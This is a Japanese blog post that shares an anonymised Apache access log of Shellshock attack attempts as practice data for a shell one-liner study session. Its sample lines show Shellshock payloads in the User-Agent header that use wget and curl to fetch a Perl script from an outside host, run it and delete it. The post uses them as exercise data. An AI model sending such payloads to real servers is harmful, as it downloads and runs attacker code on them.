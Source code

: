 ```yaml
---
Keywords:ログ,apache,shellshock,USP友の会,勉強会,シェル芸,シェル芸勉強会
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 第16回シェル芸勉強会で使うログ（邪悪なApache ShellShockログ）を公開します
これは<a href="http://blog.ueda.asia/?p=5620" title="シェル芸が実写化されました">エイプリルフール</a>でもなんでもなく、必要なので公開します。当日公開のほうが盛り上がるかなーと思ったのですが、出し惜しみせずに練習してもらった方がよいかと判断しました。<a href="https://usptomo.doorkeeper.jp/events/22117">第16回シェル芸勉強会のページはこちらです。</a><br />
<br />
今のところ、ログは<a href="http://ita.ee.lbl.gov/html/contrib/NASA-HTTP.html">NASAが公開しているもの</a>と、次のShellshock関連のログ（採取元: 私のブログ）を用いようと考えています。ナマのログを出すとあんまりよくないと考え、IPアドレスは頭をすべて192.168に変換しています。<br />
<br />
<!--more--><br />
<br />
<a href="access.log_.shellshock.gz">http://blog.ueda.asia/wp-content/uploads/2015/04/access.log_.shellshock.gz</a><br />
<br />
これが中身です。どんな問題が出るか予想しながらいじってみていただければと。<br />
<br />
[bash]<br />
uedambp:tmp ueda$ gzcat access.log.shellshock.gz | tail -n 3<br />
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] &quot;GET /phppath/cgi_wrapper HTTP/1.1&quot; 302 227 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\&quot;);'&quot;<br />
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] &quot;GET /phppath/php HTTP/1.1&quot; 302 219 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\&quot;);'&quot;<br />
192.168.225.64 - - [15/Dec/2014:03:12:20 +0900] &quot;GET /phppath/cgi_wrapper HTTP/1.1&quot; 302 227 &quot;-&quot; &quot;() { :;};/usr/bin/perl -e 'print \\&quot;Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\&quot;;system(\\&quot;wget -q http://192.168.63.71/android.txt -O /tmp/android.txt;perl /tmp/android.txt;rm -rf /tmp/android*\\&quot;);'&quot;<br />
[/bash]<br />
<br />
<br />
ヤバイ・・・<br />
<br />
<br />
寝る。
